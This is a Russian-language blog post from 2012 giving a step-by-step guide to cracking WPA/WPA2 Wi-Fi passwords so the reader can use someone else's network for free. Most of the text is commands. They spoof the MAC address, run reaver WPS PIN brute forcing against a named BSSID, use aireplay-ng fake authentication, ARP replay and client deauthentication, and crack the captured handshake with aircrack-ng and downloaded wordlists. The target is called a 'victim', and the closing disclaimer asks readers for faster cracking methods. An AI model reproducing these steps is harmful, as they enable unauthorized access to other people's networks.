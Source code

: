 Title: Неприступный wi-fi
Date: 2012-08-08 08:15
Tags: Web, Linux
Slug: wi-fi
Author: redVi
Summary: Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками.

Казалось бы, нет денег &mdash; нет интернета, путь к светлой беспроводной мечте закрыт и ничего здесь не попишешь. Но мы пойдём другим путём &mdash; обходным. Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками. Всё нижеизложенное осуществлялось под управлением ОС Linux, но в Windows одна из используемых программ имеется точно и имя ей `aircrack-ng`.

<b>Задача:</b> получение пароля точки доступа WPA/PSK или WPA2/PSK.

Предполагаемый алгоритм решения:

## Меняем мак-адрес:

```console
# ifconfig wlan0 hw ether 00:00:00:00:00:00
```

где 00:00:00:00:00:00 &mdash; ваш новый MAC-адрес.

При следующем входе в систему настройки будут сброшены.

Поднимаем сеть:

```console
# ifconfig wlan0 up
```

## Создаём виртуальный интерфейс:

```console
# airmon-ng start wlan0
```

Заработает виртуальный интерфейс в режиме мониторинга, как правило он носит название mon0. Теперь необходимо просканировать сеть и выбрать предполагаемую жертву, дабы получить BSSID сети.

## Начинаем прослушивать эфир:

```console
# airodump-ng mon0
```

![mon0](http://1.bp.blogspot.com/-IWElfzIH6tU/UCF15qF1ySI/AAAAAAAABJM/mn3KesP73EA/s1600/aircrack-ng.png)

### Использование утилиты reaver

Получив необходимые сведения, вписываем их вместо подчёркнутых

```console
$ sudo reaver -i mon0 -b 20:4E:7F:37:73:82 --channel 1 -vv
```

* mon0 - наш виртуальный интерфейс
* ключ -b обозначает BSSID точки доступа
* channel 1 - пробуем достучаться до первого "канала"
* vv - расширенный вывод - нас будут уведомлять о происходящем

Какой канал использует наш удалённый друг мы можем видеть в поле `CH`.

Если всё складывается удачно, вывод должен быть примерно таким:

```
[+] Switching mon0 to channel 1
[+] Waiting for beacon from 20:4E:7F:37:73:82
[+] Associated with 20:4E:7F:37:73:82 (ESSID: marisha24)
[+] Trying pin 12345670
```

Вот и всё. Теперь остаётся только долго ждать пока нам на блюдечке не поднесут нужные сведения. Автором сего поста был использован именно этот метод, как наиболее простой. Нижеприведённые на текущий момент носят сугубо теоретический характер.

### Путь второй: продолжаем эксперименты с `aircrack-ng`

```console
# airodump-ng --channel 1 --write networks.dump mon0
```

* где 1 - номер канала
* networks.dump - файл, в который будет сохранён результат

В другой консоли начинаем повтор ARP-пакетов:

```console
# aireplay-ng --fakeauth 1 mon0 -e "linksys"
# aireplay-ng --arpreplay mon0 -e "linksys"
```

* где "linksys" - ESSID (имя) сети

Возможно, понадобится ввести и BSSID, в данном случае для этого служит ключ `-a`:

```console
$ sudo aireplay-ng --fakeauth 1 mon0 -e dan9iekb -a FC:75:16:CC:20:D8
```

и так далее

Когда ARP-пакет будет найдет, программа начнет повторять его в эфир.

Как только наберется достаточное количество пакетов (поле DATA, 30.000 пакетов должно быть достаточно), в следующей консоли подбираем пароль:

```console
# aircrack-ng networks.dump
```

Ну и ждём, соответственно. Занятие это долгое, параллельно на другой машине успеете [поставить gentoo](http://www.unix-lab.org/posts/install-gentoo/). И не только поставить, а даже настроить =)

Либо ещё способ с тем же `aircrack`, опишу с нуля, дабы не запутать читателя:

```console
# airodump-ng mon0 - высматриваем жертву
# airodump-ng -c 1 --bssid FC:75:16:CC:20:D8 -w data mon0 -  собираем данные о конкретной точке
```

Заставляем клиента переинициализироваться в сети:

```console
# aireplay-ng -deauth 3 -a MAC_AP -c MAC_Client mon0
```

* где MAC_AP - ваш мак-адрес
* MAC_Client - адрес "того парня"

Способ хорош тем, что не придётся накапливать пакеты

```console
# aircrack-ng -w wordlist capture_file
```

* где wordlist – ваш словарь
* capture_file – файл с данными, с расширением cap

Словари можно стянуть по адресу:

<http://ftp.se.kde.org/pub/security/tools/net/Openwall/wordlists>

<b>P.S.</b> Автор не несёт ответственности за ваши действия. Вся информация предоставлена исключительно в ознакомительных целях. Автор не использует полученные в результате эксперимента сведения, не разглашает их и даже не помнит. Не смотря на это ввиду любопытности темы всем сведующим лицам предлагается вносить свои правки и дополнения в комментариях: это может быть более лучший/быстрый метод взлома, могут быть ссылки на качественные словари &mdash; что угодно.
